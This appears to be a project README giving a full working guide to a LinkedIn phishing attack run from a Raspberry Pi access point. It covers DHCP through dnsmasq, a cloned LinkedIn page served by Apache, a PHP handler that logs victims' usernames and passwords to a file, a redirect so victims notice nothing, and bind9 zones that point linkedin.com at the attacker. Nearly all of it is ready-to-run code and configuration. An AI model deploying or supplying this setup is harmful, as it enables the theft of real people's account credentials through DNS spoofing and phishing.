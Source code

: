 # Configuration Steps
## 1. Install required softwares
```
#sudo apt install apache2
#sudo apt install bind9
#sudo apt install php
```

## 2. Configure dnsmasq to share the network interface
```
#sudo nano /etc/dnsmasq.conf
```
add "bind-interfaces" in front the interface you set
```
bind-interfaces
interface=wlan0
dhcp-range=192.168.2.2,192.168.2.20,255.255.255.0,24h
```
after this step, bind9 service able to listen the IP for DNS server

## 3. Establish Phishing Website
a. Download web
You may download any website directly and modify it instead of write codes by yourself.
As an example:
```
#wget -mk https://www.linkedin.com
```
b. Move web to right path
Now the html file have been download to local. Move the file to apache2 server path
```
sudo mv Desktop/www.linkedin.com/index.html /var/www/html/
```
To hijack userdata, we may modify the action when user click submit or login button.
You will need to find where's the action in html file.
c. Modify action of submit action
```
#sudo nano /var/www/html/index.html
```
As an example, LinkedIn page using an form whose class in "sign-in-form", modify the action to "get.php". (We will create the php file later)
Also, you need notice the name or if for the entry box. For LinkedIn, the name are "session_key" and "session_password".
d. create php file
The name should the same as you modified in index.html, here, as the example, it will be get.php
```
#sudo nano /var/www/html/get.php
```
Add below codes to the file. It will record the username and password user inputed in a local file.
```
<?php
$username = $_POST['session_key'];
$password = $_POST['session_password'];
$TEXT = 'Username:'.$username." Password:".$password."\n";
$fo = fopen("home/pi/Desktop/password.text","a+") or die("something wrong");
fwrite($fo,$TEXT);
fclose($fo);
?>
```
At the end of the php, you may redirect the post request to the right url, so user can finish his login action and won't notice anything wrong.
In default, the php file will not have access to write in files, so we need do this step to authorize it.
```
#sudo chown -R www-data /home/pi/Desktop
```
## 4. DNS Configuration
a. set configuration path
```
sudo nano /etc/bind/named.conf.options
```
Add below statement in "options" block after "directory" pahth.
```
Dump-file "/var/cache/bind/dump.db";
```
Configure the path of action file when certain Domain or IP visited.
```
#sudo nano /etc/bind/named.conf
```
```
zone "linkedin.com"{
      type master;
      file "/etc/bind/linkedin.com.db"
};
zone "2.168.192.in-addr.arpa"{
      type master;
      file "/etc/bind/192.168.2.db";
};
```
Configure the forward lookup file
```
#sudo nano /etc/bind/linkedin.com.db
```
```
$TTL 600
#ORIGIN linkedin.com.
@ IN  SOA ns.linkedin.com. admin.linkedin.com.(
      2008111001
      8H
      2H
      4W
      1D)
@ IN  NS  ns.linkedin.com.
@ IN  MX  10 mail.linkedin.com.

www IN  A 192.168.2.1
mail IN  A 192.168.2.1
ns  IN  A 192.168.2.1
*.linkedin.com  IN  A 192.168.2.1
```
configure the reverse lookup file
```
#sudo nano /etc/bind/192.168.2.db
```
```
$TTL 3D
@ IN  SOA ns.likedin.com.  admin.linkedin.com.(
      2008111001
      8H
      2H
      4W
      1D)
@ IN  NS  ns.linkedin.com.
101 IN  PTR www.linkedin.com.
102 IN  PTR mail.linkedin.com.
10  IN  PTR ns.linkedin.com.
```
```
#sudo rndc flush
#sudo service bind9 restart
```
